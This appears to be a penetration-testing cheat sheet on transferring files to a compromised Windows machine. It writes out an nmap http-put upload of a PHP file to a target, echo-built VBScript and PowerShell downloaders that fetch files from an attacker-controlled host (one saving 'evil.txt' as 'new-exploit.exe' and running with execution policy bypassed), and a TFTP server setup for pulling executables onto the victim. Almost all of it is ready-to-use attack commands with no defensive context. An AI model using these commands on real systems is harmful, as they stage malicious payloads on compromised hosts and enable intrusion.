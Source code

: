 ## Nmap

> nmap -p 80 *TARGET_IP* --script http-put --script-args http-put.url='/remotefile.php',http-put.file='/root/myfile.php'

## VBScript

Copy this into Windows Shell

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

> cscript wget.vbs http://YOURIP/file_to_send.txt C:\save\file\here.txt

## Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://YOUR_IP/evil.txt" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

## TFTP

Installed on Windows XP up to 2003 by default
Ensure tftp is all set up as follows:

```
mkdir /tftp
aftpd --daemon --port 69 /tftp
cp /file/you/want /tftp
```

On Windows 
> tftp -i --yourIP-- get file.exe
